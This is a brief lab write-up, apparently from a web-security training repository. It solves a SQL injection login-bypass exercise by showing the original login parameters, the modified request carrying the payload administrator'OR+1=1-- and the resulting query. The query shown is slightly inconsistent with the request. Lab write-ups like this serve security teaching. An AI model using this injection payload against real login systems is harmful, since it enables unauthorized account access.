 ## Lab #1: SQL injection vulnerability allowing login bypass

>Perform an SQL injection attack that logs in to the application as the administrator user. 

Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator' OR 1=1 -- 'AND password='fahmi'
```

Next: [UNION attack](03-union-attacks/README.md)

